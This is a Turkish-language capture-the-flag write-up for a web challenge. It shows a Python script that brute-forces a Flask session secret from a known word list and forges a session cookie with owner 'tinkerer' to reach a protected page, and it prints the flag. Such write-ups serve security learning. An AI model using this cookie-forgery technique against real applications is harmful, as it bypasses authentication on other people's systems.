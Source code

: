 # tinkererWorkshop - Web

flag: `SKYSEC{WH0_IS_THERE?}`

# Source Code
Kaynak koduna sahip olduğumuz için önce onu incelemekle başlayalım. Kodda gözümüze ilk çarpan şey cookie için secret keyin rastgele 50 kelimeden verildiği ve bizim ona sahip olmamız.

```
words = ["emission", "alliance", "offense", "scientist", "series", "counter", "depression", "emotion", "call",
         "correspondent", "salmon", "acceptance", "step", "pc", "leather", "ritual", "awareness", "cause", "hook",
         "breath", "wife", "ethics", "library", "cell", "excitement", "competitor", "text", "beat", "figure", "fighter",
         "relation", "critic", "revolution", "alarm", "opponent", "criticism", "humanity", "portion", "assessment",
         "tree", "background", "square", "anxiety", "teaspoon", "rating", "historian", "heights", "discrimination",
         "fiber", "officer"]
```

# Writeup
Ardından kodu inceledikten sonra workshop isminde bir subdomain görüyoruz ama girmek istediğimizde bize bir uyarı veriyor. Ardından kodun bu bloğunu incelediğimizde gözümüze bir şey çarpıyor

```python
    if session.get("owner"):
        check = session["owner"]
        if check == "tinkerer":
```
Ardından dilersek flask-unsign kullanarak dilersek de bu denemeyi yapacak python scripti yazarak secret key ile cookiemizi çözüp {'owner':'tinkerer'} olacak 
şekilde yeniden paketleyip yeni cookie ile sisteme giriş yapmamız gerekmektedir. 

# Python Script
```python
import flask
import hashlib

from sys import argv
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature

cookie = argv[1]

words = ["emission", "alliance", "offense", "scientist", "series", "counter", "depression", "emotion", "call",
         "correspondent", "salmon", "acceptance", "step", "pc", "leather", "ritual", "awareness", "cause", "hook",
         "breath", "wife", "ethics", "library", "cell", "excitement", "competitor", "text", "beat", "figure", "fighter",
         "relation", "critic", "revolution", "alarm", "opponent", "criticism", "humanity", "portion", "assessment",
         "tree", "background", "square", "anxiety", "teaspoon", "rating", "historian", "heights", "discrimination",
         "fiber", "officer"]

real_secret = ''

for secret in words:
    try:
        serializer = URLSafeTimedSerializer(
            secret_key=secret,  
            salt='cookie-session',
            serializer=TaggedJSONSerializer(),
            signer=TimestampSigner,
            signer_kwargs={
                'key_derivation' : 'hmac',
                'digest_method' : hashlib.sha1
        }).loads(cookie)
    except BadSignature:
        continue

    print(f'Secret key: {secret}')
    real_secret = secret

session = {'owner' : 'tinkerer'}

print(URLSafeTimedSerializer(
    secret_key=real_secret,
    salt='cookie-session',
    serializer=TaggedJSONSerializer(),
    signer=TimestampSigner,
    signer_kwargs={
        'key_derivation' : 'hmac',
        'digest_method' : hashlib.sha1
    }
).dumps(session))

```
# FLAG
Ardından yeni cookie ile /workshop dizinine giriş yaptığımızda Flag bizi karşılıyor
"SKYSEC{WH0_IS_THERE?}"